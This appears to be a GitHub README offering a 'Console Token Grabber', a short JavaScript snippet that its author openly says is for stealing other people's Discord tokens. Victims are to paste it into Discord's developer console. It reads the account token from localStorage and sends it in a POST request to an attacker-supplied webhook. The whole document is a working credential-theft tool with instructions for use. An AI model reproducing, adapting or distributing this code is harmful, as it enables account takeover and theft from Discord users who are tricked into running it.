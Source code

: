 ## 🔐 Basic Console Token Grabber
 **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

• **Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.**

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR WEBHOOK'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "21426",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());;
```

